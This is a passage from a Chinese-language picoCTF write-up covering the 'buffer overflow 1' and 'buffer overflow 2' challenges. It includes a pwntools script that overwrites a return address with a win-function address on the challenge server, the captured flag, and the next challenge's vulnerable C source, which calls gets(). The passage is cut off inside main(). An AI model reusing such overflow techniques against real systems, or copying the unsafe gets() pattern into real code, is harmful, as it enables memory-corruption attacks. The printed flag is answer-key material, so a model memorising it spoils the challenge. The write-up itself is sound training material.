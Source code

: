 找到了它的地址是 `0x080491f6`。那就開始構造 Exploit 吧。

```python
from pwn import *

r = remote("saturn.picoctf.net", 64447)

payload = b""
offset = 44
win_addr = 0x080491F6

payload += b"A" * offset
payload += p32(win_addr)
r.sendline(payload)
r.interactive()
```

```txt
picoCTF{addr3ss3s_ar3_3asy_6462ca2d}
```

# buffer overflow 2

和前兩題一樣，先看看代碼。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2)
{
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt", "r");
  if (f == NULL)
  {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
           "own debugging flag.\n");
    exit(0);
  }

  fgets(buf, FLAGSIZE, f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln()
{
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);
```